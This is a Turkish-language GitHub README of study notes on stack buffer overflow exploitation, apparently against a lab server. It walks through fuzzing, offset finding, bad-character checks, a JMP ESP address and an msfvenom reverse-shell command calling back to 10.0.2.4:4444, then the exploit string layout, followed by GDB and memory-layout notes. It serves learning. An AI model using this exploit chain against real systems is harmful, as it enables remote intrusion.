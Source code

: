 # Buffer-Overflow-Notes
1 -  İlk önce kali üzerinde bulunan <b>generic_send_tcp</b> komutunu kullanarak ve bir spike dosyası oluşturarak, hizmetteki herhangi bir komutta buffer overflow olup olmadığını kontrol edecek  bir istek gönderiyoruz.

"generic_send_tcp" Kali'de buffer overflow fuzzing için kullanılır. Sunucular içindir ve bir <b>"spike"</b> dosyasına ihtiyaç duyar. 

Spike dosyası kod listesidir. Programın hangi komut veya instruction üzerine fuzzing deneyeceğini belirlemek için yazılır. Basit bir dildir.<br>
Örneğin:<br>
```
s_readline();
s_string("STATS ");
s_string_variable("A");
```
Örnek komut:
```
generic_send_tcp 10.0.2.15 9999 fuzz.spk 0 0
```
Sunucu çöktükten ve çöktüğüne emin olduktan sonra nerde çökertebildiğimizi bulabilmek için <b>Manual Fuzzing</b> yapmamız gerekmekte.
1. Adım için paylaştığım kodu düzenleyip çalıştırdıktan sonra sunucu çöktüğünde CTRL+C yapıyoruz. Ve bize "<b>tahminen</b>" nerede çöktüğünü gösteriyor. Değerleri kod içerisinde sürekli 100 ile arttırdığımız için kesin bir yer bulması mümkün değil. Bunun için bir sonraki adıma geçiyoruz.

NOT: TRUN'dan sonraki dize paket debugger'de izlenerek bulunmuştur.

NOT: TRUN bu sunucuya özeldir.

2 <b>-/usr/share/metasploit-framework/tools/exploit/pattern_create.rb</b> -> Fuzzing ile kaç karakterde çöktüğünü bulduktan sonra o değere yakın bir değerde pattern üretmek için.

Çöken değere yakın bir değer ile bir pattern üretiyoruz.  Eğer 2300de çöktüysek,
```
./pattern_create.rb -l 2500
```
Pattern'i 2. adımdaki kod ile gönderiyoruz.  Sunucu çöktükten sonra, Debugger üzerinde EIP'ye yazılan karakterlerin hex değerlerini not ediyoruz.

3 -```└─# ./pattern_offset.rb -l 2500 -q 386F4337```
"-l" değeri payload'ın uzunluğu, "-q" değeri EIP'ye yazılan değer.

Çıktıdan kaçıncı karakterde çöktüğünün bilgisini alıyoruz.

4 - Test: Paylaştığım kodda, çökerten karakter sayısı kadar "A", ve cidden yazılıp yazılmadığını denemek için 4 adet "B" gönderiyoruz. Hexadecimal üzerinde "42" olarak ifade edilen B değerinin Debugger'da EIP değerine yazıldığını görüyoruz.

5 - Test 2 - Bad Chars: Sunucunun okuyamadığı veya engellediği herhangi bir "bad character" olup olmadığını öğrenmek için, ekte paylaştığım kodu kullanıyoruz. Debugger üzerinden ESP'yi dump edip HEX sırasını takip ve kontrol ettiğimizde bir bozulma olmadığına emin olmamız gerekiyor. Bozulma olan karakterler "bad characters" olarak not edilir.

6- Exploit Plan: 
6.1.: EIP'de bizim enjekte etmeye çalıştığımız shellkoda nasıl yönlendirme yapabiliriz, kodumuzu nasıl yerleştirebiliriz, bunun için bir aratma yapmamız gerekiyor. Bir gerçek hayat senaryosunda birden çok seçenek denememiz gerekebilir. Genelde "JMP ESP" kullanılır. Atlama yapmaya yarar.

Kaynak: <a href="https://www.abatchy.com/2017/05/jumping-to-shellcode.html">shellcode jumping</a>

6.1.1: Metasploit içerisinde bulunan nasm_shell.rb ile kodumuzu assembly'e çevirmemiz gerekiyor.
```
└─# /usr/share/metasploit-framework/tools/exploit/nasm_shell.rb 
nasm > JMP ESP
00000000  FFE4              jmp esp
nasm > 
```
"FFE4" değerini not ediyoruz.

6.1.2: Ben Immunity Debugger kullanmayı tercih ediyorum, Immunity için "Mona" adlı bir plugine ihtiyacımız olacak. Kurduktan ve sunucuyu çalıştırıp "Attach" ettikten sonra, bize kullanılan tüm modülleri ve bu modüllerin okuma/yazma'ya karşı korumalı olup olmadığını göstermesi için ```!mona modules``` komutunu Immunity üzerinden çalıştırıyoruz. 

Bu kısımda memory write koruması kapalı modüllerden birini seçiyoruz. Bu bizim senaryomuzda "essfunc.dll"

![image](https://user-images.githubusercontent.com/88983987/215236883-8aebe4f1-8e1b-459c-906e-982b449eeace.png)

Bu modül üzerinde yazma koruması yok. Bu modül üzerinde exploit çalıştırabiliriz. Modül içerisinde yazma yapabileceğimiz "JMP ESP" komutunu aratmamız gerekiyor. "nasm_shell" ile dönüştürdüğümüz kodu hex formatına dönüştürüp modül içerisinde aratıyoruz.
```
!mona find -s "\xff\xe4" -m essfunc.dll
```
"JMP ESP" işlemi çalıştırılan memory adress'leri not alıp tek tek deniyoruz. Bizim senaryomuzda çalışan memory adress: 0x625011AF

7. Exploit:

Exploit için öncelilkle bir reverse shell koduna ihtiyacımız var.
```
msfvenom -p windows/shell_reverse_tcp LHOST=10.0.2.4 LPORT=4444 EXITFUNC=thread -f c -a x86 -b "\x00"
```
```
"-p": Payload Türü
"LHOST": Geri Dönüş Sağlanacak Sunucu
"LPORT": Geri Dönüş Sağlanacak Sunucunun Portu
"EXITFUNC": Thread Process
"-f": C dilinde derlenmesi
"-a": Architecture
"-b": Bad Characters
```

Shell kodunu ürettikten sonra karşı tarafa yollamak kalıyor. Eklediğim exploit scripti bu işlemi yapıyor. Satırları açıklamam gerekirse:
```
stringToSend = "TRUN /.:/" + "A" * 2003 + "\xaf\x11\x50\x62" + "\x90" * 32 + payload
```

```
"TRUN /.:/" + "A" * 2003 # Çökertecek kadar kod yolla
"\xaf\x11\x50\x62" # JMP ESP -> Kodumu Çalıştır
"\x90" * 32 # NOP Code
"payload" -> MSFVenom ile ürettiğimiz payload
```
# GDB
```
● disassemble main - look at the assembly code of the main function
 ● break *0x12345678 - set a breakpoint at address 0x12345678
 ● x 0x12345678 - examine/print the content of address 0x12345678
 ● x/xw 0x12345678 - print the content of address 0x12345678 as hex word
 ● x/s 0x12345678 - print the content of address 0x12345678 as a string
 ● run - run/restart the program you are debugging
 ● continue - continue execution after you stopped at a breakpoint
 ● quit - exit gdb
 ```
 
# General
HEAP

STACK
Yerel değişkenler, fonksiyonlar içerisinde yapılan işlemler kaydedilir. Ram kaç GB olursa olsun, işletim sisteminin mimarisine göre belirli bir yer ayrılır. Stack bu limiti aşamaz. 

DATA
Global değişkenler ve statik değişkenler kaydedilir. Yaşam döngüsüne bağlı kalmayan değişkenlerdir.

TEXT
Assembly Instructions

int x; -> Local Değişken, Stack
int *y;
(int*)malloc(sizeof(int)); -> Heapte bir yer aç ve adres ata. Stack içerisinde sadece adresi tutulur. malloc yer ayırma fonksiyonudur. sizeof int'in boyutunu alır ve malloc ile int'in boyutu kadar bir yer ayırır.

Extended Stack Pointer
Buffer
Extended Base Pointer
Extended Instruction Pointer -> SCOPE
